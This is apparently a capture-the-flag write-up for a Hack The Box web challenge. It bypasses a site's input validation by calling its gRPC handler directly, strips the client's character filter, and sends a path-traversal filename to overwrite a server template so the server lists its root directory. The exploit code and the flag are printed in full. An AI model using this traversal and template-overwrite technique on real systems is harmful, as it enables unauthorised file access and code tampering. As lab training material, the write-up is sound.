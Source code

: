 # Testimonial

 As the leader of the Revivalists you are determined to take down the KORP, you
 and the best of your faction's hackers have set out to deface the official
 KORP website to send them a message that the revolution is closing in.

## How to Play

Two URLs are provided, one for the KORP website and the other for grpc handler.

The input validation happens on the website, so by creating a client that
directly connects to the GRPC handler, we can bypass the input validation.

The website uses `air` to generate a template using `templ`.

```toml
cmd = "templ generate && go build -o ./tmp/main ."
```

In the `challenge/view/home/index.templ` file these lines are present:

```go
fsys := os.DirFS("public/testimonials")
files, err := fs.ReadDir(fsys, ".")
```

This is a go code that reads the files in the `public/testimonials` directory.
And this code executes on the server side according to `air` and by `templ`.

We aim to replace the `public/testimonials` directory with `/` to read the root
directory and the contents of the root directory.

We can copy GRPC client used by web server and modify it to read the root
directory.


Modify the `challenge/view/home/index.templ` to read the root directory.
and save it as `solve.templ`.

```go
fsys := os.DirFS("/")
```

Create a new main `main.go` with goal of calling the `SendTestimonial` function
with the modified `templ` file. We can use the `challenge/client/client.go` as
a template.

First change the `url` to the GRPC handler. (change the ip and port)

```go
conn, err := grpc.Dial(fmt.Sprintf("127.0.0.1%s", ":50045"), grpc.WithInsecure())
```

Then remove the filter bad characters in `SendTestimonial` function.

```go
// Filter bad characters.
// for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
// 	customer = strings.ReplaceAll(customer, char, "")
// }
```

Then call the `SendTestimonial` function with the modified `templ` file.

```go
func main () {
	client, _ := GetClient()

	backdoor, _ := ioutil.ReadFile("./solve.templ")

	client.SendTestimonial("../../view/home/index.templ", string(backdoor))
}
```

[main.go](web_testimonial/web_testimonial/challenge/main.go)
[solve.templ](web_testimonial/web_testimonial/challenge/solve.templ)

Reloading the website will show all the contents of the root directory.

## Flag

```
HTB{w34kly_t35t3d_t3mplate5}
```
